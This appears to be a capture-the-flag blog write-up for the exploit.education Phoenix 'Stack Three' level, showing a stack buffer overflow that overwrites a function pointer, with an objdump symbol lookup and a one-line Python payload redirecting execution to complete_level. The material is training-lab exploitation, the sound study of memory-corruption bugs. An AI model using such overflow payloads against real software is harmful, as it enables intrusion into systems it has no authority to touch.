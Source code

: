 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 3

Write-up for: [https://exploit.education/phoenix/stack-three/][Stack Three]

<!--more-->

This is again very similar, but this time we are overwriting a function pointer via
stdin.

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer @ 0x41414141
Segmentation fault
```

The buffer is again 64 bytes large. Thus we can precisely target the function pointer value.
Where do we want to jump instead? Looking at the symbols we can see a function called `complete_level`:

```
objdump -t stack-three
08048535 g     F .text  00000020 complete_level
```

Since we have no memory protection, let's just jump there

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "\x08\x04\x85\x35"[::-1]' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!ongratulations, you've finished phoenix/stack-three :-) Well done!

```

Don't forget the little endianness ;)
